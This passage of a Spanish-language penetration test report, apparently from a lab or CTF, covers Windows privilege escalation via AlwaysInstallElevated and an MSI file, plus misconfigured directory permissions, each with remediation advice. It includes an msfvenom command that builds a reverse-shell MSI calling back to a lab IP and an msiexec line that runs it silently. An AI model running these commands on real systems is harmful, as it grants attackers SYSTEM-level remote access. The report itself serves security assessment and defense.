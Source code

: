 Impacto:

Un atacante podría explotar esta vulnerabilidad creando un archivo MSI malicioso (p. ej., msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.250.1.6 LPORT=8888 -f msi -o shell.msi) y ejecutándolo para escalar privilegios y obtener acceso a nivel de SISTEMA.

Recomendación de solución:

Desactive la opción AlwaysInstallElevated estableciendo el valor a 0 en HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer y HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer.

Audite periódicamente la configuración del registro y asegúrese de que no haya ninguna configuración insegura habilitada.

Restringa el acceso a la configuración del registro a usuarios no administradores para evitar su manipulación.

Vulnerabilidad 3: Escalada de privilegios mediante un archivo MSI malicioso

Calificación de riesgo: Crítico

Descripción:

Tras confirmar la presencia de la configuración de registro AlwaysInstallElevated, pudimos crear un archivo MSI malicioso mediante msfvenom para iniciar un shell inverso con privilegios de SISTEMA. El shell inverso se ejecutó correctamente tras ejecutar el archivo MSI en el equipo objetivo mediante el comando msiexec (msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi).

Impacto:

Esta vulnerabilidad permite a un atacante eludir las restricciones de usuario y ejecutar código arbitrario con privilegios elevados, lo que permite el acceso a nivel de SISTEMA. Esto podría utilizarse para exfiltrar datos confidenciales, implementar malware o comprometer aún más el sistema.

Consejos de solución:

Desactive la configuración de registro AlwaysInstallElevated como se describe en la vulnerabilidad 2.

Implemente un control de acceso con privilegios mínimos para los usuarios, garantizando que solo los administradores de confianza puedan ejecutar archivos MSI con privilegios elevados.

Audite y supervise periódicamente la ejecución de archivos MSI, especialmente en entornos de producción.

Vulnerabilidad 4: Permisos mal configurados en directorios

Calificación de riesgo: Media

Descripción:

Se encontraron permisos de archivos y directorios mal configurados en varios directorios críticos, incluyendo C:\Users\hr\Documents. Atacantes o usuarios no autorizados podrían haber accedido a archivos confidenciales, como user.txt (el indicador de privilegios bajos).

Impacto:

Los permisos incorrectos podrían permitir a los atacantes leer, modificar o eliminar archivos confidenciales, lo que podría exponer las credenciales de usuario o datos confidenciales. Esto podría facilitar los ataques de escalada de privilegios o el robo de datos.
